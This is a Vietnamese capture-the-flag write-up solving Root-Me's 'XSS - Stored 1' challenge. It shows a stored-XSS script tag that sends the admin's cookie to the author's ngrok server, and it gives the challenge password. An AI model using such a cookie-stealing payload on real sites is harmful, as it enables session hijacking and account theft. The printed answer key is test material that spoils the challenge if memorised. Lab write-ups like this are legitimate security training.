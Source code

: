# Challenge: XSS - Stored 1
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 12 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1
- Giao diện web mở đầu, tại đây trang web cho phép nhập liệu và lưu trữ lại, kiểm tra lại thì ta cũng thấy nó bị lỗi XSS (Mặc dù đề có nêu)
<p align="center"><img src="./images/1_1.png"></p>

- Để khai thác lỗi này thì ta cần 1 server để có thể nhận được thông tin từ lấy được từ challenge. Ta sử dụng Ngrok để tạo đường hầm (tunnel) giữa localhost và internet.
<p align="center"><img src="./images/1_2.png"></p>
<p align="center"><img src="./images/1_2_1.png"></p>
- Đề bài cho nói pass là cookie của admin... do vậy ta cần lấy ra cookie. Ở đây giải pháp là gởi cookie vào server của mình thông qua phương thức GET

```
<script>document.location="http://dfbe-125-235-212-70.ngrok.io/?cookie="+document.cookie</script>
```
<p align="center"><img src="./images/1_3.png"></p>
- sau khi nhân nút send thì ta sẽ được chuyển đến server của ta 
<p align="center"><img src="./images/1_4.png"></p>
- Đợi 1 lúc tầm 3-4 phút thì ta nhận được 1 request khác, với cookie của admin
<p align="center"><img src="./images/1_5.png"></p>

## Kết quả password là `NkI9qe4cdLIO2P7MIsWS8ofD6`